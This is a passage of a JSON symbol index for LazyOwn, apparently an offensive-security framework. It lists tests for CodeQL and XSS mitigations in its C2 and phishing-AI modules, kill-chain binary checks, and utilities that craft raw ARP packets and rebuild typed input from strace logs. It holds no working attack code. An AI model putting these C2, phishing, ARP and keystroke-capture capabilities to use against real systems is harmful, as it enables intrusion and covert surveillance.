"test_marketplace_template_exists", "signature": "def test_marketplace_template_exists()"}, {"kind": "function", "line": 101, "name": "test_launch_kit_exists", "signature": "def test_launch_kit_exists()"}]}, {"doc": "Regression suite for the GitHub code-scanning mitigations.  The CodeQL ruleset shipped on the repository flagged a number of patterns that this suite locks in once they are mitigated. Every test class targets a single rule so a failure points at the specific contract that drifted.  Architecture:  - :class:`MitigationSuiteConfig` is the only place where paths, ``ast`` conventions and the catalogue of fixed handlers live. Adding a new mitigation means appending one entry, not editing assertions. - One test class per CodeQL rule. Behavioural tests run end-to-end where practical (e.g. the regex sanitiser); structural tests parse the source with :mod:`ast` so they do not require a running Flask app.", "id": "tests/test_vuln_mitigations.py", "kind": "module", "label": "test_vuln_mitigations.py", "language": "py", "sha256": "a11c11cd81f3fab2", "symbol_count": 28, "symbols": [{"doc": "Centralised constants for the vulnerability-mitigation suite.\n\nEvery literal the suite depends on lives here. ``frozen=True`` prevents\naccidental mutation by per-test consumers.", "kind": "class", "line": 29, "name": "MitigationSuiteConfig", "signature": "class MitigationSuiteConfig"}, {"doc": "Single, immutable configuration shared by every test class.", "kind": "function", "line": 64, "name": "mitigation_config", "signature": "def mitigation_config()"}, {"doc": "Return the source text of a module relative to the repo root.", "kind": "function", "line": 69, "name": "_read_module", "signature": "def _read_module(config, relative_path)"}, {"doc": "Yield ``(function_name, body_source)`` for every function in ``src``.", "kind": "function", "line": 77, "name": "_iter_function_bodies", "signature": "def _iter_function_bodies(src)"}, {"doc": "``py/stack-trace-exposure`` mitigations are in place.", "kind": "class", "line": 89, "name": "TestStackTraceSanitisation", "signature": "class TestStackTraceSanitisation"}, {"doc": "``py/overly-large-range`` mitigation in ``lazy_sentinel4.sanitize_content``.\n\nThe host module pulls in heavyweight optional dependencies (langchain,\nrich, watchdog) that may be absent in lean test environments. To keep\nthe regression contract decoupled from those imports the suite reads\nthe source, extracts the substitution pattern and exercises it against\na stable input set.", "kind": "class", "line": 166, "name": "TestSentinelRegexSafety", "signature": "class TestSentinelRegexSafety"}, {"doc": "Smoke tests that the suite configuration matches the repo state.", "kind": "class", "line": 224, "name": "TestMitigationConfigInvariants", "signature": "class TestMitigationConfigInvariants"}, {"doc": "Absolute path to the repository root.", "kind": "method", "line": 58, "name": "repo_root", "signature": "def repo_root(self)"}, {"doc": "The full text of ``lazyc2.py``.", "kind": "method", "line": 93, "name": "lazyc2_src", "signature": "def lazyc2_src(self, mitigation_config)"}, {"doc": "The full text of ``modules/lazyphishingai.py``.", "kind": "method", "line": 98, "name": "phishingai_src", "signature": "def phishingai_src(self, mitigation_config)"}, {"doc": "``/log`` no longer returns the raw exception string.", "kind": "method", "line": 102, "name": "test_log_handler_returns_generic_message", "signature": "def test_log_handler_returns_generic_message(self, lazyc2_src)"}, {"doc": "The mitigation preserves the server-side ``logger`` call.", "kind": "method", "line": 112, "name": "test_log_handler_keeps_server_side_logging", "signature": "def test_log_handler_keeps_server_side_logging(self, lazyc2_src)"}, {"doc": "``/api/palette`` no longer leaks the file-system path of the index.", "kind": "method", "line": 121, "name": "test_palette_api_returns_generic_message", "signature": "def test_palette_api_returns_generic_message(self, lazyc2_src)"}, {"doc": "The mitigation preserves the server-side ``logger.error`` call.", "kind": "method", "line": 131, "name": "test_palette_api_keeps_server_side_logging", "signature": "def test_palette_api_keeps_server_side_logging(self, lazyc2_src)"}, {"doc": "The ``dynamic_route`` handler no longer echoes ``response[0]``.", "kind": "method", "line": 140, "name": "test_dynamic_route_drops_raw_save_to_log_payload", "signature": "def test_dynamic_route_drops_raw_save_to_log_payload(self, lazyc2_src)"}, {"doc": "The phishing AI module no longer leaks ``str(ex)`` from the API call.", "kind": "method", "line": 149, "name": "test_phishing_ai_returns_generic_message", "signature": "def test_phishing_ai_returns_generic_message(self, phishingai_src)"}, {"doc": "No remaining handler echoes a raw exception string in jsonify.", "kind": "method", "line": 154, "name": "test_no_forbidden_response_substrings_remain", "signature": "def test_no_forbidden_response_substrings_remain(self, lazyc2_src, phishingai_src, mitigation_config)"}, {"doc": "The full text of ``lazy_sentinel4.py``.", "kind": "method", "line": 177, "name": "src", "signature": "def src(self, mitigation_config)"}, {"doc": "Return the printable-ASCII pattern wired into ``sanitize_content``.", "kind": "method", "line": 181, "name": "_extract_sanitise_pattern", "signature": "def _extract_sanitise_pattern(self, src)"}, {"doc": "The simplified character class is what landed.", "kind": "method", "line": 188, "name": "test_no_redundant_character_range_in_sanitise", "signature": "def test_no_redundant_character_range_in_sanitise(self, src)"}, {"doc": "The pattern extracted from source is the simplified one.", "kind": "method", "line": 193, "name": "test_pattern_matches_simplified_form", "signature": "def test_pattern_matches_simplified_form(self, src)"}, {"doc": "All printable ASCII characters survive the substitution unchanged.", "kind": "method", "line": 197, "name": "test_pattern_keeps_printable_ascii", "signature": "def test_pattern_keeps_printable_ascii(self, src)"}, {"doc": "``\\t`` and ``\\n`` survive even though they fall outside ``\\x20-\\x7E``.", "kind": "method", "line": 203, "name": "test_pattern_keeps_tab_and_newline", "signature": "def test_pattern_keeps_tab_and_newline(self, src)"}, {"doc": "Bytes below ``\\x20`` (other than tab/newline) are replaced.", "kind": "method", "line": 209, "name": "test_pattern_strips_control_bytes", "signature": "def test_pattern_strips_control_bytes(self, src)"}, {"doc": "The mitigation no longer accidentally drops ``]``, ``)`` or ``|``.", "kind": "method", "line": 217, "name": "test_pattern_does_not_strip_brackets", "signature": "def test_pattern_does_not_strip_brackets(self, src)"}, {"doc": "Every handler module referenced by the suite is present on disk.", "kind": "method", "line": 227, "name": "test_handler_module_paths_exist", "signature": "def test_handler_module_paths_exist(self, mitigation_config)"}, {"doc": "The sentinel module that hosts ``sanitize_content`` is present.", "kind": "method", "line": 232, "name": "test_sentinel_module_exists", "signature": "def test_sentinel_module_exists(self, mitigation_config)"}, {"doc": "``sanitize_content`` is importable for behavioural tests.", "kind": "method", "line": 236, "name": "test_sentinel_function_exposed", "signature": "def test_sentinel_function_exposed(self, mitigation_config)"}]}, {"doc": "tests/test_wizard_binary_check.py  Tests for the wizard binary-readiness check added to ``cli.wizard``.  The check is the only step that touches the operator's environment without explicit consent, so the contract under test is:  - ``check_binaries`` performs presence detection only; it never spawns a subprocess. - Each :class:`BinarySpec` honours :data:`_BINARY_NAME_RE` so the report cannot leak shell metacharacters into the rendered table. - The default ``_REQUIRED_BINARIES`` table stays in sync with the install hints required by the LazyOwn kill chain (recon, web, smb, ad, cred, exploit, c2). - ``run`` always populates ``WizardResult.binaries`` regardless of whether the operator changed any payload values.", "id": "tests/test_wizard_binary_check.py", "kind": "module", "label": "test_wizard_binary_check.py", "language": "py", "sha256": "14150b492a120721", "symbol_count": 26, "symbols": [{"kind": "class", "line": 32, "name": "TestBinarySpecRegistry", "signature": "class TestBinarySpecRegistry"}, {"kind": "class", "line": 58, "name": "TestBinaryNameRegex", "signature": "class TestBinaryNameRegex"}, {"kind": "class", "line": 92, "name": "TestCheckBinariesContract", "signature": "class TestCheckBinariesContract"}, {"kind": "class", "line": 143, "name": "TestGroupByCategory", "signature": "class TestGroupByCategory"}, {"kind": "class", "line": 156, "name": "TestRunIntegratesBinaryCheck", "signature": "class TestRunIntegratesBinaryCheck"}, {"kind": "class", "line": 199, "name": "TestPublicSurface", "signature": "class TestPublicSurface"}, {"kind": "method", "line": 33, "name": "test_default_registry_is_not_empty", "signature": "def test_default_registry_is_not_empty(self)"}, {"kind": "method", "line": 36, "name": "test_every_spec_has_required_fields", "signature": "def test_every_spec_has_required_fields(self)"}, {"kind": "method", "line": 44, "name": "test_every_name_matches_safety_regex", "signature": "def test_every_name_matches_safety_regex(self)"}, {"kind": "method", "line": 48, "name": "test_no_duplicate_binary_names", "signature": "def test_no_duplicate_binary_names(self)"}, {"kind": "method", "line": 52, "name": "test_kill_chain_categories_covered", "signature": "def test_kill_chain_categories_covered(self)"}, {"kind": "method", "line": 72, "name": "test_accepts_known_safe_names", "signature": "def test_accepts_known_safe_names(self, name)"}, {"kind": "method", "line": 88, "name": "test_rejects_unsafe_names", "signature": "def test_rejects_unsafe_names(self, name)"}, {"kind": "method", "line": 93, "name": "test_returns_one_status_per_spec", "signature": "def test_returns_one_status_per_spec(self)"}, {"kind": "method", "line": 103, "name": "test_marks_missing_when_which_returns_none", "signature": "def test_marks_missing_when_which_returns_none(self)"}, {"kind": "method", "line": 109, "name": "test_marks_present_when_which_returns_path", "signature": "def test_marks_present_when_which_returns_path(self)"}, {"kind": "method", "line": 115, "name": "test_skips_specs_with_unsafe_names", "signature": "def test_skips_specs_with_unsafe_names(self)"}, {"kind": "method", "line": 122, "name": "test_check_does_not_invoke_subprocess", "signature": "def test_check_does_not_invoke_subprocess(self, monkeypatch)"}, {"kind": "method", "line": 138, "name": "test_default_specs_used_when_omitted", "signature": "def test_default_specs_used_when_omitted(self)"}, {"kind": "method", "line": 144, "name": "test_groups_preserve_order", "signature": "def test_groups_preserve_order(self)"}, {"kind": "method", "line": 157, "name": "test_run_populates_binaries_when_nothing_changes", "signature": "def test_run_populates_binaries_when_nothing_changes(self, monkeypatch)"}, {"kind": "method", "line": 176, "name": "test_run_populates_binaries_after_updates", "signature": "def test_run_populates_binaries_after_updates(self, monkeypatch)"}, {"kind": "method", "line": 200, "name": "test_check_binaries_in_dunder_all", "signature": "def test_check_binaries_in_dunder_all(self)"}, {"kind": "function", "line": 127, "name": "_fail", "signature": "def _fail()"}, {"kind": "function", "line": 160, "name": "fake_check", "signature": "def fake_check()"}, {"kind": "function", "line": 179, "name": "fake_check", "signature": "def fake_check()"}]}, {"doc": "Contract tests for the wizard LLM provider setup step.  Covers provider answer parsing, secret masking, the interactive ``_ask_llm`` update flow (with scripted prompts), and the provider-aware readiness summary. No real I/O or network is exercised.", "id": "tests/test_wizard_llm.py", "kind": "module", "label": "test_wizard_llm.py", "language": "py", "sha256": "2f4856446c7b9a37", "symbol_count": 31, "symbols": [{"kind": "function", "line": 14, "name": "_scripted_prompt", "signature": "def _scripted_prompt(answers)"}, {"kind": "class", "line": 23, "name": "TestNormalizeProviderAnswer", "signature": "class TestNormalizeProviderAnswer"}, {"kind": "class", "line": 45, "name": "TestMaskSecret", "signature": "class TestMaskSecret"}, {"kind": "class", "line": 59, "name": "TestAskLlm", "signature": "class TestAskLlm"}, {"kind": "class", "line": 121, "name": "TestReadinessLlm", "signature": "class TestReadinessLlm"}, {"kind": "function", "line": 17, "name": "_fake", "signature": "def _fake(message)"}, {"kind": "method", "line": 24, "name": "test_blank_returns_none", "signature": "def test_blank_returns_none(self)"}, {"kind": "method", "line": 28, "name": "test_name_case_insensitive", "signature": "def test_name_case_insensitive(self)"}, {"kind": "method", "line": 32, "name": "test_number_selects_backend", "signature": "def test_number_selects_backend(self)"}, {"kind": "method", "line": 37, "name": "test_out_of_range_number_returns_none", "signature": "def test_out_of_range_number_returns_none(self)"}, {"kind": "method", "line": 41, "name": "test_unknown_name_returns_none", "signature": "def test_unknown_name_returns_none(self)"}, {"kind": "method", "line": 46, "name": "test_empty_returns_not_set", "signature": "def test_empty_returns_not_set(self)"}, {"kind": "method", "line": 50, "name": "test_long_value_masked_with_tail", "signature": "def test_long_value_masked_with_tail(self)"}, {"kind": "method", "line": 53, "name": "test_short_value_never_shown_clear", "signature": "def test_short_value_never_shown_clear(self)"}, {"kind": "method", "line": 60, "name": "test_blank_answers_keep_everything", "signature": "def test_blank_answers_keep_everything(self, monkeypatch)"}, {"kind": "method", "line": 65, "name": "test_provider_change_by_name", "signature": "def test_provider_change_by_name(self, monkeypatch)"}, {"kind": "method", "line": 70, "name": "test_provider_change_by_number", "signature": "def test_provider_change_by_number(self, monkeypatch)"}, {"kind": "method", "line": 76, "name": "test_invalid_provider_keeps_current", "signature": "def test_invalid_provider_keeps_current(self, monkeypatch)"}, {"kind": "method", "line": 80, "name": "test_model_override_stored_in_provider_slot", "signature": "def test_model_override_stored_in_provider_slot(self, monkeypatch)"}, {"kind": "method", "line": 89, "name": "test_ollama_skips_key_prompt", "signature": "def test_ollama_skips_key_prompt(self, monkeypatch)"}, {"kind": "method", "line": 102, "name": "test_key_kept_when_blank", "signature": "def test_key_kept_when_blank(self, monkeypatch)"}, {"kind": "method", "line": 106, "name": "test_existing_key_prompt_shows_mask", "signature": "def test_existing_key_prompt_shows_mask(self, monkeypatch)"}, {"kind": "method", "line": 122, "name": "_row", "signature": "def _row(self, params, label)"}, {"kind": "method", "line": 126, "name": "test_cloud_with_key_ok", "signature": "def test_cloud_with_key_ok(self)"}, {"kind": "method", "line": 131, "name": "test_cloud_without_key_missing", "signature": "def test_cloud_without_key_missing(self)"}, {"kind": "method", "line": 136, "name": "test_ollama_keyless_ok", "signature": "def test_ollama_keyless_ok(self)"}, {"kind": "method", "line": 141, "name": "test_invalid_backend_missing_with_fix_hint", "signature": "def test_invalid_backend_missing_with_fix_hint(self)"}, {"kind": "method", "line": 146, "name": "test_model_shown_in_value", "signature": "def test_model_shown_in_value(self)"}, {"kind": "method", "line": 150, "name": "test_sensitive_values_masked", "signature": "def test_sensitive_values_masked(self)"}, {"kind": "function", "line": 92, "name": "_fake", "signature": "def _fake(message)"}, {"kind": "function", "line": 109, "name": "_fake", "signature": "def _fake(message)"}]}, {"doc": "Tests for extended WorldModel methods: set_os_hint, get_host, get_hosts_summary.", "id": "tests/test_world_model_extended.py", "kind": "module", "label": "test_world_model_extended.py", "language": "py", "sha256": "82333125bab5db1a", "symbol_count": 21, "symbols": [{"kind": "function", "line": 14, "name": "world_model", "signature": "def world_model()"}, {"kind": "class", "line": 22, "name": "TestSetOsHint", "signature": "class TestSetOsHint"}, {"kind": "class", "line": 43, "name": "TestGetHost", "signature": "class TestGetHost"}, {"kind": "class", "line": 61, "name": "TestGetHostsSummary", "signature": "class TestGetHostsSummary"}, {"kind": "class", "line": 73, "name": "TestAdvanceHostEdgeCases", "signature": "class TestAdvanceHostEdgeCases"}, {"kind": "class", "line": 90, "name": "TestGetPhaseAfterStateChanges", "signature": "class TestGetPhaseAfterStateChanges"}, {"kind": "method", "line": 23, "name": "test_set_os_hint_on_new_host", "signature": "def test_set_os_hint_on_new_host(self, world_model)"}, {"kind": "method", "line": 29, "name": "test_set_os_hint_on_existing_host", "signature": "def test_set_os_hint_on_existing_host(self, world_model)"}, {"kind": "method", "line": 36, "name": "test_set_os_hint_empty_string_is_stored", "signature": "def test_set_os_hint_empty_string_is_stored(self, world_model)"}, {"kind": "method", "line": 44, "name": "test_get_host_returns_none_for_unknown", "signature": "def test_get_host_returns_none_for_unknown(self, world_model)"}, {"kind": "method", "line": 47, "name": "test_get_host_returns_entry_for_known", "signature": "def test_get_host_returns_entry_for_known(self, world_model)"}, {"kind": "method", "line": 53, "name": "test_get_host_is_thread_safe", "signature": "def test_get_host_is_thread_safe(self, world_model)"}, {"kind": "method", "line": 62, "name": "test_empty_summary", "signature": "def test_empty_summary(self, world_model)"}, {"kind": "method", "line": 65, "name": "test_populated_summary", "signature": "def test_populated_summary(self, world_model)"}, {"kind": "method", "line": 74, "name": "test_advance_host_skips_on_same_state", "signature": "def test_advance_host_skips_on_same_state(self, world_model)"}, {"kind": "method", "line": 79, "name": "test_advance_host_skips_on_lower_state", "signature": "def test_advance_host_skips_on_lower_state(self, world_model)"}, {"kind": "method", "line": 84, "name": "test_advance_host_to_owned_is_allowed_from_exploited", "signature": "def test_advance_host_to_owned_is_allowed_from_exploited(self, world_model)"}, {"kind": "method", "line": 91, "name": "test_phase_derived_from_host_state", "signature": "def test_phase_derived_from_host_state(self, world_model)"}, {"kind": "method", "line": 95, "name": "test_phase_post_exploitation_on_owned", "signature": "def test_phase_post_exploitation_on_owned(self, world_model)"}, {"kind": "method", "line": 100, "name": "test_phase_complete_when_all_owned", "signature": "def test_phase_complete_when_all_owned(self, world_model)"}, {"kind": "method", "line": 105, "name": "test_phase_recon_when_no_hosts", "signature": "def test_phase_recon_when_no_hosts(self, world_model)"}]}, {"doc": "Untrusted data rendered into the DOM must be neutralized.  SDD contract: beacon output, scan hostnames, AI text and collab events reach ``innerHTML`` sinks. Every such sink must pass through ``DOMPurify.sanitize`` (vendored lib, the index.html precedent) or the ``esc()`` entity-encoder for pure-text slots. Raw interpolations of response/label/operator data are regressions.", "id": "tests/test_xss_sanitization.py", "kind": "module", "label": "test_xss_sanitization.py", "language": "py", "sha256": "064bb5182c225ff2", "symbol_count": 8, "symbols": [{"kind": "function", "line": 18, "name": "_src", "signature": "def _src(name)"}, {"kind": "class", "line": 22, "name": "TestXssSinks", "signature": "class TestXssSinks"}, {"kind": "method", "line": 23, "name": "test_collab_events_escaped", "signature": "def test_collab_events_escaped(self)"}, {"kind": "method", "line": 28, "name": "test_yaml_view_loads_purify", "signature": "def test_yaml_view_loads_purify(self)"}, {"kind": "method", "line": 32, "name": "test_yaml_view_chatbot_sanitized", "signature": "def test_yaml_view_chatbot_sanitized(self)"}, {"kind": "method", "line": 37, "name": "test_new_campaign_chunks_sanitized", "signature": "def test_new_campaign_chunks_sanitized(self)"}, {"kind": "method", "line": 42, "name": "test_surface_labels_escaped", "signature": "def test_surface_labels_escaped(self)"}, {"kind": "method", "line": 47, "name": "test_index_lazyos_response_sanitized", "signature": "def test_index_lazyos_response_sanitized(self)"}]}, {"doc": "Contract conformance checker for single-file LAZY port modules.  Usage: python3 /tmp/opencode/contract_check.py modules/intercept.py [files...]  Checks: docstrings on public classes and functions, no absolute operator paths, presence of a Config class, no emoji bytes.", "id": "tools/contract_check.py", "kind": "module", "label": "contract_check.py", "language": "py", "sha256": "fd3b91f1633d8fd3", "symbol_count": 2, "symbols": [{"doc": "Validate one module and return human readable violations.", "kind": "function", "line": 19, "name": "check_file", "signature": "def check_file(path)"}, {"doc": "Check each file argument and report violations.", "kind": "function", "line": 46, "name": "main", "signature": "def main(argv)"}]}, {"doc": "Extract a named cluster of do_* methods from a CommandSet module.  Usage: python3 tools/extract_cluster.py <source.py> <target.py> <TargetClass> <phase> <category> <title> [--extra-imports \"line1;line2\"] <do_a> [do_b ...]  Copies each method including decorators, verbatim, into a new module defining a pending ``PendingCommandSet`` subclass. The emitted module mirrors the ``*_migrated.py`` runtime contract: a bottom-of-file injector copies public ``utils`` names into module globals (bare-name references inside migrated methods resolve through it, since PEP 562 ``__getattr__`` does not fire for function-global lookups), plus a ``__getattr__`` fallback for attribute-style access.  Follow the dormancy protocol after generating: verify with a parity test, delete the originals from the source module, then flip the base class to ``LazyOwnCommandSet``.", "id": "tools/extract_cluster.py", "kind": "module", "label": "extract_cluster.py", "language": "py", "sha256": "833b9752534c3aa7", "symbol_count": 4, "symbols": [{"doc": "Return the function name defined by an extracted source fragment.\n\nArgs:\n    fragment: Raw source text of one decorated method.\n\nReturns:\n    The ``def`` name declared by the fragment.", "kind": "function", "line": 29, "name": "fragment_name", "signature": "def fragment_name(fragment)"}, {"doc": "Collect verbatim source of wanted methods in class-definition order.\n\nArgs:\n    source_text: Full source of the origin module.\n    wanted: Method names to extract.\n\nReturns:\n    Raw source fragments, decorators included.", "kind": "function", "line": 41, "name": "collect_methods", "signature": "def collect_methods(source_text, wanted)"}, {"doc": "Render the new pending CommandSet module source.\n\nArgs:\n    target_class: Name of the generated ``CommandSet`` subclass.\n    phase: Kill-chain phase slug for the ``phase`` attribute.\n    category: cmd2 help category label.\n    title: Short human description used in the docstring.\n    methods: Verbatim method fragments in final order.\n    extra_imports: Additional import lines (for underscore-aliased\n        names the ``utils`` injector cannot provide).\n\nReturns:\n    Complete module source text.", "kind": "function", "line": 66, "name": "build_module", "signature": "def build_module(target_class, phase, category, title, methods, extra_imports)"}, {"doc": "Extract the requested cluster and write the target module.", "kind": "function", "line": 141, "name": "main", "signature": "def main()"}]}, {"doc": "Generate LazyOwn demo GIFs without external services.", "id": "tools/gen_demo_gifs.py", "kind": "module", "label": "gen_demo_gifs.py", "language": "py", "sha256": "0083322441a4cfd6", "symbol_count": 3, "symbols": [{"doc": "Resolve a monospace font with stdlib fallback.", "kind": "function", "line": 14, "name": "font", "signature": "def font(size)"}, {"doc": "Render terminal line-by-line frames.", "kind": "function", "line": 22, "name": "render", "signature": "def render(lines, path, hold)"}, {"doc": "Render the three core GIFs.", "kind": "function", "line": 70, "name": "main", "signature": "def main()"}]}, {"doc": "Additional LazyOwn demo GIFs. Every command verified against source.", "id": "tools/gen_demo_gifs_extra.py", "kind": "module", "label": "gen_demo_gifs_extra.py", "language": "py", "sha256": "68272d30dee2ac78", "symbol_count": 1, "symbols": [{"doc": "Render the four extended GIFs.", "kind": "function", "line": 49, "name": "main", "signature": "def main()"}]}, {"id": "user_split.sh", "kind": "module", "label": "user_split.sh", "language": "sh", "sha256": "8f63331ea2aa63f3", "symbol_count": 0, "symbols": []}, {"doc": "utils.py  Author: Gris Iscomeback Email: grisiscomeback[at]gmail[dot]com Creation date: 09/06/2024 License: GPL v3  Description: This file contains the logic for all functions used in the LazyOwnShell class.  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "utils.py", "kind": "module", "label": "utils.py", "language": "py", "sha256": "0d577494370ce57a", "symbol_count": 124, "symbols": [{"doc": "Return True when any shell segment of the command runs sudo/doas.\n\nUnderstands the wrapper forms the alias table uses (``sh sudo ...``)\nand leading environment assignments, so a command that merely hides\nsudo behind an alias expansion is still detected.\n\nArgs:\n    command: Shell command line about to run.\n\nReturns:\n    True when the command would invoke sudo or doas.", "kind": "function", "line": 323, "name": "needs_sudo", "signature": "def needs_sudo(command)"}, {"doc": "Return whether passwordless sudo works here, cached per process.\n\nThe unattended loop must not launch sudo commands that will die on a\nmissing terminal; one ``sudo -n true`` probe answers that for good.\n\nReturns:\n    True when ``sudo -n true`` succeeds.", "kind": "function", "line": 347, "name": "sudo_available", "signature": "def sudo_available()"}, {"doc": "Mask API keys and credentials embedded in a command line.\n\nArgs:\n    text: Command line or log message that may embed secrets.\n\nReturns:\n    The text with recognized secret values replaced by ``***`` so\n    neither the operator console nor the event log stores them.", "kind": "function", "line": 376, "name": "redact_secrets", "signature": "def redact_secrets(text)"}, {"doc": "Extracts IP and MAC addresses from a formatted input string using a regular expression.\n\nThe input string is expected to be in the format: 'IP: (192.168.1.222) MAC: ec:c3:02:b0:4c:96'.\nThe function uses a regular expression to match and extract the IP address and MAC address from the input.\n\nArgs:\n    input_string (str): The formatted string containing the IP and MAC addresses.\n\nReturns:\n    tuple: A tuple containing the extracted IP address and MAC address. If the format is incorrect, returns (None, None).", "kind": "function", "line": 396, "name": "parse_ip_mac", "signature": "def parse_ip_mac(input_string)"}, {"doc": "Constructs an ARP packet with the given source and destination IP and MAC addresses.\n\nThe function creates both Ethernet and ARP headers, combining them into a complete ARP packet.\n\nArgs:\n    src_mac (str): Source MAC address in the format 'xx:xx:xx:xx:xx:xx'.\n    src_ip (str): Source IP address in dotted decimal format (e.g., '192.168.1.1').\n    dst_ip (str): Destination IP address in dotted decimal format (e.g., '192.168.1.2').\n    dst_mac (str): Destination MAC address in the format 'xx:xx:xx:xx:xx:xx'.\n\nReturns:\n    bytes: The constructed ARP packet containing the Ethernet and ARP headers.", "kind": "function", "line": 418, "name": "create_arp_packet", "signature": "def create_arp_packet(src_mac, src_ip, dst_ip, dst_mac)"}, {"doc": "Sends a raw ARP packet over the specified network interface.\n\nThe function creates a raw socket, binds it to the specified network interface, and sends the given packet.\n\nArgs:\n    packet (bytes): The ARP packet to be sent.\n    iface (str): The name of the network interface to use for sending the packet (e.g., 'eth0').\n\nRaises:\n    OSError: If an error occurs while creating the socket or sending the packet.", "kind": "function", "line": 453, "name": "send_packet", "signature": "def send_packet(packet, iface)"}, {"doc": "Load the version number from the 'version.json' file.\n\nThis function attempts to open the 'version.json' file and load its contents.\nIf the file is found, it retrieves the version number from the JSON data.\nIf the version key does not exist, it returns a default version 'release/v0.0.14'.\nIf the file is not found, it also returns the default version.\n\nThe version.json is the single source of truth, updated by deploy.sh.\n\nReturns:\n- str: The version number from the file or the default version if the file is not found or the version key is missing.", "kind": "function", "line": 471, "name": "load_version", "signature": "def load_version()"}, {"doc": "Interpret a configuration value as a boolean.\n\nAccepts the canonical truthy strings used across payload.json and\nform surfaces (``true``, ``1``, ``yes``, ``on``, case-insensitive).\nAnything else evaluates to False so a missing or typo'd flag can\nnever silently enable a feature.\n\nArgs:\n    value: The raw value; converted to string before inspection.\n\nReturns:\n    bool: True only for the canonical truthy strings.", "kind": "function", "line": 497, "name": "parse_bool", "signature": "def parse_bool(value)"}, {"doc": "Handles signals such as Control + C and shows a message on how to exit.\n\nThis function is used to handle signals like Control + C (SIGINT) and prints\na warning message instructing the user on how to exit the program using the\ncommands 'exit', 'q', or 'qa'.\n\n:param sig: The signal number.\n:type sig: int\n:param frame: The current stack frame.\n:type frame: frame\n:return: None", "kind": "function", "line": 515, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"doc": "Activates a virtual environment and starts an interactive shell.\n\nThis function activates a virtual environment located at `venv_path` and then\nlaunches an interactive bash shell with the virtual environment activated.\n\n:param venv_path: The path to the virtual environment directory.\n:type venv_path: str\n:return: None", "kind": "function", "line": 540, "name": "activate_virtualenv", "signature": "def activate_virtualenv(venv_path)"}, {"doc": "Internal function to parse a /proc/net file and extract network ports.\n\nThis function reads a file specified by `file_path`, processes each line to\nextract local addresses and ports, and converts them from hexadecimal to decimal.\nThe IP addresses are converted from hexadecimal format to standard dot-decimal\nnotation. The function returns a list of tuples, each containing an IP address\nand a port number.\n\n:param file_path: The path to the /proc/net file to be parsed.\n:type file_path: str\n:return: A list of tuples, each containing an IP address and a port number.\n:rtype: list of tuple", "kind": "function", "line": 565, "name": "parse_proc_net_file", "signature": "def parse_proc_net_file(file_path)"}, {"doc": "Internal function to get open TCP and UDP ports on the operating system.\n\nThis function uses the `parse_proc_net_file` function to extract open TCP and UDP\nports from the corresponding /proc/net files. It returns two lists: one for TCP\nports and one for UDP ports.\n\n:return: A tuple containing two lists: the first list with open TCP ports and\n        the second list with open UDP ports.\n:rtype: tuple of (list of tuple, list of tuple)", "kind": "function", "line": 609, "name": "get_open_ports", "signature": "def get_open_ports()"}, {"doc": "Internal function to rotate characters for ROT cipher.\n\nThis function takes a character and a shift value, and rotates the character\nby the specified shift amount. It only affects alphabetical characters, leaving\nnon-alphabetical characters unchanged.\n\n:param c: The character to be rotated.\n:type c: str\n:param shift: The number of positions to shift the character.\n:type shift: int\n:return: The rotated character.\n:rtype: str", "kind": "function", "line": 628, "name": "rotate_char", "signature": "def rotate_char(c, shift)"}, {"doc": "Retrieves network interface information with their associated IP addresses.\n\nThis function executes a shell command to gather network interface details,\nparses the output to extract interface names and their corresponding IP addresses,\nand returns this information in a dictionary format. The dictionary keys are\ninterface names, and the values are IP addresses.\n\n:return: A dictionary where the keys are network interface names and the values\n         are their associated IP addresses.\n:rtype: dict", "kind": "function", "line": 650, "name": "get_network_info", "signature": "def get_network_info()"}, {"kind": "function", "line": 685, "name": "get_git_info", "signature": "def get_git_info()"}, {"kind": "function", "line": 704, "name": "get_venv_info", "signature": "def get_venv_info()"}, {"doc": "Read ``payload.json`` defensively for the prompt renderer.\n\nThe prompt is rendered before the shell finishes wiring its parameters,\nso direct attribute access on the shell would race. Reading the file\neach time keeps the prompt in sync with operator-driven updates without\ncoupling the renderer to the shell's lifecycle.", "kind": "function", "line": 711, "name": "_load_prompt_payload", "signature": "def _load_prompt_payload()"}, {"doc": "Render the configurable Neon Box prompt for the cmd2 shell.\n\nDelegates to :func:`cli.banner_config.render_prompt` so the entire\nsegment registry, color palette, and toggling logic live in a single\nself-contained module. Failure to import the renderer falls back to a\nminimal single-line prompt so the shell stays usable.\n\nReturns:\n    str: The fully styled multi-line prompt string ready for cmd2.", "kind": "function", "line": 725, "name": "getprompt", "signature": "def getprompt()"}, {"doc": "Copia el texto proporcionado al portapapeles usando xclip.\n\nArgs:\n    text (str): El texto que se desea copiar al portapapeles.\n\nExample:\n    copy2clip(\"Hello, World!\")", "kind": "function", "line": 743, "name": "copy2clip", "signature": "def copy2clip(text)"}, {"doc": "Removes color escape sequences and other non-printable characters.", "kind": "function", "line": 763, "name": "clean_output", "signature": "def clean_output(output)"}, {"doc": "Processes a file to extract and display characters from specific write sequences.\n\nArgs:\n    filename (str): El nombre del archivo a leer.\n\nRaises:\n    FileNotFoundError: Si el archivo no se encuentra.\n    Exception: Para otros errores que puedan ocurrir.", "kind": "function", "line": 776, "name": "teclado_usuario", "signature": "def teclado_usuario(filename)"}, {"doc": "Lee un archivo, extrae texto desde secuencias de escritura y muestra el contenido reconstruido.\n\nArgs:\n    filename (str): El nombre del archivo a leer.\n\nRaises:\n    FileNotFoundError: Si el archivo no se encuentra.\n    Exception: Para otros errores que puedan ocurrir.", "kind": "function", "line": 812, "name": "salida_strace", "signature": "def salida_strace(filename)"}, {"doc": "Process and display results from ExploitAlert.\n\nThis function checks if the provided content contains any results.\nIf results are present, it prints the title and link for each exploit found,\nand appends the results to a predata list. If no results are found,\nit prints an error message.\n\nParameters:\n- content (list): A list of dictionaries containing exploit information.\n\nReturns:\nNone\nThanks to Sicat 🐈\nAn excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. 